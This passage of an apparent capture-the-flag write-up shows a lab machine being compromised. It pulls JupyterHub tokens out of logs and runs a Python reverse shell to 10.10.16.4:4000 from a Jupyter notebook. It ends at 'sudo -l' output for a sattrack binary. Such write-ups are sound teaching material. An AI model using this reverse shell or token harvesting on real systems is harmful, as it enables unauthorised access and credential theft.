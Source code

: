 We will use chisel to forward port 8888 on the target machine to our local machine. However, we realize that we would require the Jupyterhub's token in order to access Jupyterhub. In /opt/solar-flares/logs, we are able to access all the logs of Jupyterhub and we are also able to obtain the multiple token for Jupyterhub. Testting each token, we are finally able to obtain the valid token to authenticate to Jupyterhub.

```
juno@jupiter:/opt/solar-flares/logs$ cat *.log | grep token=
...
[I 13:53:10.516 NotebookApp]  or http://127.0.0.1:8888/?token=99515a46ec9771332b4bdb8c6345f556d0b9033ebb857bfc
     or http://127.0.0.1:8888/?token=99515a46ec9771332b4bdb8c6345f556d0b9033ebb857bfc
[I 20:39:52.954 NotebookApp]  or http://127.0.0.1:8888/?token=17c88cd08da0e83060212d9bdca9b7e0cb77a5b3db7f601e
     or http://127.0.0.1:8888/?token=17c88cd08da0e83060212d9bdca9b7e0cb77a5b3db7f601e
[I 14:05:51.514 NotebookApp]  or http://127.0.0.1:8888/?token=6e55453452553edb56a9a1ff047e59731a996f1b1477a2bb
     or http://127.0.0.1:8888/?token=6e55453452553edb56a9a1ff047e59731a996f1b1477a2bb
[I 04:26:13.071 NotebookApp]  or http://127.0.0.1:8888/?token=ef4fb5130d8b5a2617a9094d8ae174122871944b0409ccc6
     or http://127.0.0.1:8888/?token=ef4fb5130d8b5a2617a9094d8ae174122871944b0409ccc6
```

After gaining access to the Jupyterhub site, we are also able to gain access to the Jupyter notebooks at http://127.0.0.1:8888/notebooks/flares.ipynb. We are then able to execute code in the Jupyter NoteBook. From there, we can insert a reverse shell code and execute it to gain a reverse shell connection to local listener

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.4",4000))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash","-i"])
```

Since the Jupyter NoteBook is being executed with the permissions of jovian, we are able to escalate our privileges to become jovian

```
juno@jupiter:/opt/solar-flares$ ps -aux | grep jovian
ps -aux | grep solar
jovian      1178  0.0  2.2 474480 91384 ?        Sl   04:26   0:02 /usr/bin/python3 /usr/local/bin/jupyter-notebook --no-browser /opt/solar-flares/flares.ipynb
```

# Privilege Escalation to root
Using ```sudo -l```, we are able to find that the user can execute ```/usr/local/bin/sattrack``` with root permissions

```
jovian@jupiter:/usr/local/share/sattrack$ do -l
sudo -l
Matching Defaults entries for jovian on jupiter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/local/bin/sattrack

```
